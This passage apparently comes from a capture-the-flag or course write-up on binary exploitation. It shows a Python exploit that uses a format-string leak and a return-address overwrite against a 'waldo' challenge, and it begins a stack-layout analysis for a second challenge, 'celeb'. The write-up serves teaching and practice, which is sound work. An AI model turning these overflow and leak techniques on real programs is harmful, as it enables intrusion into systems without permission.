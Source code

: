 #### `doit_waldo.py`

Below snippet shows the interesting part of my Python implementation of the
exploit:

```python
def exploit(p):
    p.stdout.readline() # "what your name?"
    p.stdin.write(b"%11$llx\n")

    tmp = p.stdout.readline().strip() # "nice to meet you <return addr>"
    waldo_addr   = tmp.split(b" ")[-1]
    waldo_addr_b = (int(waldo_addr, 16) - 129).to_bytes(8, "little")

    pad = b"i" * 24 # nice

    exploit = pad + waldo_addr_b + b"\n"

    p.stdin.write(exploit)
```


### `celeb`

#### Stack layout of relevant function(s)

All relevant vulnerabilities are in `get_answer`, hence I show the stack layout
for just this function.

Again, `get_answer` also does not use any callee-saved registers, and since it
takes only 1 argument, it does not use the stack for arguments. Hence its stack
layout is:

```
get_answer stack layout

addr                    | thing
---------------------------------------------------------
rbp +   8 ... rbp +  15 | return address
rbp +   0 ... rbp +   7 | rbp of main
rbp -   4 ... rbp -   1 | getaline return value (local var)
rbp -   8 ... rbp -   5 | makeshift canary (local var)
rbp -  16 ... rbp -   9 | (answer_buf cont.)
rbp -  24 ... rbp -  17 | (answer_buf cont.)
rbp -  32 ... rbp -  25 | (answer_buf cont.)
rbp -  40 ... rbp -  33 | (answer_buf cont.)
rbp -  48 ... rbp -  41 | (answer_buf cont.)
rbp -  56 ... rbp -  49 | (answer_buf cont.)
rbp -  64 ... rbp -  57 | (answer_buf cont.)
rbp -  72 ... rbp -  65 | (answer_buf cont.)
rbp -  80 ... rbp -  73 | (answer_buf cont.)
rbp -  88 ... rbp -  81 | (answer_buf cont.)
rbp -  96 ... rbp -  89 | (answer_buf cont.)
rbp - 104 ... rbp -  97 | (answer_buf cont.)
rbp - 112 ... rbp - 105 | start of answer_buf (local var)
rbp - 120 ... rbp - 113 | expected answer str (first argument to get_answer)
```
